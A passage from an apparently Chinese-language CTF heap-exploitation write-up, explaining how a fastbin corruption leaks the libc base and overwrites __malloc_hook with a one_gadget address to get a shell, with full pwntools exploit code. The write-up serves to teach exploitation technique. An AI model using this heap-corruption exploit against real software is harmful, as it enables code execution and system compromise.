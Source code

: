 而由上面的 gdb 分析可知得到的指针位于 `0xaed`，`__malloc_hook` 位于 `0xb10`（PIE 下低 12 位固定），相差 `0x13`。因此填充 `0x13` 字节的 padding 后再放上 getshell 的 gadget 地址即可。

```python
# _IO() + 13 == __malloc_hook(), one_gadget
payload = flat(['\x00'*0x13, base+0x4526a])
fill(6, payload)
```

最后不要忘记再申请一次任意大小内存以调用 `__malloc_hook`。完整 exp，注意最后一次 alloc 返回得有点慢，`recvuntil` 最好加一个 `timeout`：


```python
def alloc(size):
    sl('1')
    sla(':', str(size))
    ru(':', timeout=1)

def fill(idx, data):
    sl('2')
    sla(':', str(idx))
    sla(':', str(len(data)))
    sa(':', data)
    ru(':')

def free(idx):
    sl('3')
    sla(':', str(idx))
    ru(':')

def dump(idx):
    sl('4')
    sla(':', str(idx))
    ru(': \n')
    data = p.ru('\n')
    ru(':')
    return data


for i in range(4):
	alloc(0x10) # a0,b1,c2,d3
alloc(0x80) # e4
free(1) # b
free(2) # c

# c->fd = e
payload = flat(0,0,0,0x21,0,0,0,0x21,'\x80')
fill(0, payload)

# e->chunk_size = 0x21
payload = flat(0,0,0,0x21)
fill(3, payload)

alloc(0x10) # c1
alloc(0x10) # e2

# e->chunk_size = 0x91
payload = flat(0,0,0,0x91)
fill(3, payload)
alloc(0x80) # f5
free(4) # e, e->fd = unsorted_head

base = u64(dump(2)[:8])-0x3c4b78
leak('libc_base',base)

alloc(0x60) # g4
```